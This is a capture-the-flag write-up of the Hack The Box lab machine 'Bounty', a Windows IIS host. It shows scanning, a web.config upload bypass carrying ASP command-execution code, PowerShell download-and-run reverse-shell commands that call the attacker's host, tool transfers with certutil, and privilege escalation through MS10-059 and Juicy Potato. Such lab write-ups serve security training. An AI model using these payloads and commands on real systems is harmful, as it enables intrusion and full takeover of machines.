

---
metaLinks:
  alternates:
    - >-
      https://app.gitbook.com/s/qDX4NWkPelZggTpGCfyF/course-review/cyber-security-courses-journey/oscp-journey/ctf/hack-the-box/window-boxes/bounty-easy
---

# ✅ Bounty (Easy)

## Lesson Learn



## Report-Penetration

**Vulnerable Exploit:** Improper validate file extension

**System Vulnerable:** 10.10.10.93

**Vulnerability Explanation:** The machine is vulnerable to improper validate file extension which could allow us to bypass the filter and upload reverse shell payload and allow us to gain shell.

**Privilege Escalation Vulnerability:** Out of date kernal version

**Vulnerability Fix:** Sanitize User Input and Apply patch to the system

**Severity:** High

**Step to Compromise the Host:**&#x20;

## Reconnaissance

```
└─$ nmap -p- -sC -sV -T4 10.10.10.93    
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-20 22:01 EST
Nmap scan report for 10.10.10.93
Host is up (0.054s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Enumeration

### Port 80 Microsoft-IIS/7.5

There is only port 80 open on the remote machine. By going through, we found a simple web page and viewing the source code nothing is interest.

.png>)

Let find hidden directory with gobuster. By going through the directory /uploadFiles, it returns back 403 Forbidden access. As we know it's microsoft IIS, let run again with **asp, aspx** extension.

```
└─$ gobuster dir -u http://10.10.10.93 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50            
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.93
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/11/20 22:05:57 Starting gobuster in directory enumeration mode
===============================================================
/UploadedFiles        (Status: 301) [Size: 156] [--> http://10.10.10.93/UploadedFiles/]
/uploadedFiles        (Status: 301) [Size: 156] [--> http://10.10.10.93/uploadedFiles/]
/uploadedfiles        (Status: 301) [Size: 156] [--> http://10.10.10.93/uploadedfiles/]
```

By this time, we found other file **/transfer.aspx** which is status 200.

```
└─$ gobuster dir -u http://10.10.10.93 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x .asp,.aspx
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.93
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              asp,aspx
[+] Timeout:                 10s
===============================================================
2021/11/20 22:10:46 Starting gobuster in directory enumeration mode
===============================================================
/transfer.aspx        (Status: 200) [Size: 941]
```

.png>)

We can try to upload an image file, and it's successfully upload and we can view as well.

.png>)

.png>)

Let try to upload payload with **aspx** extension but it was rejected.

.png>)

But if we upload **.config** extension, it's accepted.

.png>)

By going through the [blog](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/) post, we can copy the script for bypass file extension. Let save the code into file **web.config** and upload it. It's successfully run the script and display number 3.

.png>)

## Exploitation web.config

Let replace it with simple shell.

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c whoami")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

.png>)

Let replace the command whoami with Powershell payload from nishang.

```
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.31/shell.ps1')")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

Let start our netcat listener on port 4444 and HTTP server to share payload.

```
nc -lvp 4444
python -m SimpleHTTPServer 80
```

Let upload the file web.config once again and we executed it.

```
└─$ python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.93 - - [21/Nov/2021 02:24:38] "GET /shell.ps1 HTTP/1.1" 200 -
```

.png>)

We didn't found any flag on merlin/Desktop unless we use command attire to display hidden files.

```
PS C:\Users\merlin\Desktop> attrib
A  SH        C:\Users\merlin\Desktop\desktop.ini
A   H        C:\Users\merlin\Desktop\user.txt
```

Otherwise we can use **Get-ChildItem** in powershell to display files that are located in the current directory and its subdirectories.

```
PS C:\Users\merlin\Desktop> gci -force


    Directory: C:\Users\merlin\Desktop


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a-hs         5/30/2018  12:22 AM        282 desktop.ini                       
-a-h-         5/30/2018  11:32 PM         32 user.txt    
```

## Privilege Escalation

Checking the privilege of the user merlin on the system. Seem like it's vulnerable to potato attack.

```
PS C:\Users\merlin\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Let run windows-exploit suggester to check for privilege escalation vulnerable.

```
└─$ python windows-exploit-suggester.py -d 2021-11-21-mssb.xls -i systeminfo.txt 
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

### MS10-059

Let start smb server to share exploit file and start netcat listener on port 5555

```
└─$ impacket-smbserver share .    
└─$ nc -lvp 5555                                              
```

On our victim machine, connect to the share folder and execute the file.

```
PS C:\Users\merlin\Desktop> //10.10.14.31/share/MS10-059.exe 10.10.14.31 5555
```

.png>)

### Juicy Potato

Proof of concept file: [https://github.com/ohpe/juicy-potato/releases](https://github.com/ohpe/juicy-potato/releases)

Now let copy another Powershell payload and use port 5555.

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.31 -Port 5555
```

Then, transfer juicypotato.exe to our victim machine.

```
PS C:\Users\Public> certutil -f -urlcache http://10.10.14.31/jp.exe C:\Users\Public\jp.exe
```

Then, create a file call shell.bat and the content is powershell script to download our reverse shell and executed.

```
powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.31/Invoke-PowerShellTcp.ps1')     
```

Let transfer the shell.bat file to our victim machine as well.

```
PS C:\Users\Public> (new-object net.webclient).downloadfile('http://10.10.14.31/shell.bat', 'C:\users\Public\shell.bat')
```

Let start our HTTP Server and netcat listener on port 5555.

```
python -m SimpleHTTPServer
nc -lvp 5555
```

Now, let execute our juicypotato.exe file.

```
PS C:\Users\Public> C:\Users\Public\jp.exe -t * -p shell.bat -l 6666
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 6666
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

.png>)
